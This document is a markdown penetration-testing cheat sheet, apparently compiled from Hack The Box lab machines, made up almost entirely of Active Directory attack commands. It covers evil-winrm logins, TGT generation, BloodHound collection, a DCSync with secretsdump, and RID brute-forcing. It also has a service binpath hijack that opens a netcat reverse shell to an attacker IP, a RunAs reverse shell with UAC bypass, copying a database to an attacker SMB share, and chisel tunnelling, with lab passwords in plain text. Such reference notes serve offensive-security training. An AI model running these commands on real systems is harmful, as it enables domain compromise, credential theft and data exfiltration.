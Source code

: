 ___


*Connecting with evil-winrm with KRB ticket*

*This worked for win-rm* -> this has to be the ugliest command I have ever written

```
KRB5CCNAME=./svc_winrm.ccache sudo docker run --rm -it -v "./svc_winrm.ccache:/tmp/krb5cc_0" -v "./krb5.conf:/etc/krb5.conf" -v "/etc/hosts:/etc/hosts:ro" evil-winrm -i dc.voleur.htb -k -u svc_winrm -r VOLEUR.HTB 
```


 *NTLM authentication*
 ```
 sudo docker run --rm -it evil-winrm -i 10.10.11.108 -u 'svc-printer' -p 'password123' 
 ```


Note
---
Are you using Kerberos or NTLM authentication? Pay attention the commands may change!


*Generating TGT for user*
```
nxc smb frizzdc.frizz.htb -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' --generate-tgt f.frizzle
```

*Grabbing bloodhound info*
```
bloodhound-python -u 'svc-printer' -p '1edFg43012!!' -ns 10.10.11.108 -dc printer.return.local -d return.local -c All  
```

*Starting Bloodhound (neo4j needs to be running)*
```
start neo4j
sudo neo4j console
```

*Useful Impacket Scripts*
```
getST.py
ntlmrelayx.py
secretsdump.py
```

*DCsync attack*
```
secretsdump.py 'puppy.htb'/steph.cooper_adm:'FivethChipOnItsWay2025!'@10.10.11.180 
```

*Rpcclient guest with no password*
```
rpcclient 10.10.11.108 -U 'guest%' 
rpcclient $> lookupnames administrator
```

*Lookupsids*
```
lookupsid.py svc-printer@10.10.11.108
or
netexec smb 10.10.11.222 -u guest -p '' --rid-brute
```


*Uses SAM remote interface to enumerate users, works over smb/RPC*
```
samrdump.py return.local/svc-printer:'1edFg43012!!'@10.10.11.108 
```


*powershell/cmd enumeration*
--
whoami /priv
whoami /groups

sc.exe query -> list running services

*list services*
```
 $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
```


*Services*
---

*Adding a service*
```
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
```

*Running service on attacker machine*
```
sc.exe start VSS
```


*Exfil*
---

*List all open ports*
```
netstat -a 
```

*Copy docker files in and out of container*
```
sudo docker cp 245f71c07597:/data/site-backup-2024-12-30.zip ./loot/site-backup-2024-12-30.zip
```

*Start smb server for file transfer from windows*
```
smbserver.py share . -username 0xdf -password 0xdf -smb2support
```

 *Use share*
```
net use \\10.10.14.6\share /u:0xdf 0xdf
```

*copy to share*
```
copy data\gitea.db //10.10.14.6/share/
```


*Extras*
---

*RunAs.exe command*
```
.\r.exe openfire 'HotP!fireguard' powershell -r 10.10.14.6:444 --logon-type 5 --bypass-uac
```


*Chisel Command (rev proxy for tunneling)*
on attacker machine
```
./chisel_1.10.1_linux_amd64 server --reverse --port 7878
```
on target
```
chisel.exe client 10.10.14.24:7878 R:9090:127.0.0.1:9090 
```



